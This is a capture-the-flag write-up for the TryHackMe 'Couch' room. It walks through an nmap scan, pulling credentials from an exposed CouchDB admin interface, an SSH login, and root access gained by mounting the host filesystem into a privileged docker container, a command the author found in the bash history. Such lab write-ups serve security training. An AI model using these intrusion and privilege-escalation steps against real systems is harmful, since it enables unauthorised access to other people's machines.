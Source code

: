 # Couch

**Date:** 01, July, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/couch) to go to the TryHackMe room.


## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.15.199 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 14:01 IST
Nmap scan report for 10.10.15.199
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 473.15 seconds
```

### How many ports are open?
- **Answer:** 2

### What's is the database management system installed on the server?
- **Answer:** CouchDB

### What port is the database management system running on?
- **Answer:** 5984

### What's is the version of management system installed on the server?
- **Answer:** 1.6.1

---

## Administration tool

### What is path for the web administration tool for this database management system?
- **Answer:** _utils

![Couch - Administration Tool](Images/Couch-Admin.png)

### What is path for list all databases in the web browser of the database management system?
- **Answer:** _all_dbs

### What is the credentials founed in the web administration tool?
- The credentials can be found inside `secret` collection.

![Credentials](Images/Couch-Credentials.png)

---

## User.txt

- Login into **SSH** using the credentials found:

```bash
$ ssh atena@10.10.15.199
atena@10.10.15.199's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ ls
user.txt

atena@ubuntu:~$ whoami
atena

atena@ubuntu:~$ cat user.txt 
THM{REDACTED}
```

---

## Privilege Escalation

- Do manual enumeration - check the following for Privilege Escalation:
    - Sudo Permissions
    - SUID binaries
    - Cron Jobs
    - Backup files
    - History files
    - Config files
    - Running Processes (`ps aux`)


- By checking the bash history file:

```bash
atena@ubuntu:~$ cat .bash_history 
[..snip..]
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
[..snip..]
```

- Run docker in privileged mode, to get root access:

```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # 
/ # whoami
root
```


### Root.txt

```bash
~ # find / -name root.txt 
/mnt/root/root.txt

~ # cat /mnt/root/root.txt
THM{REDACTED}
```

---
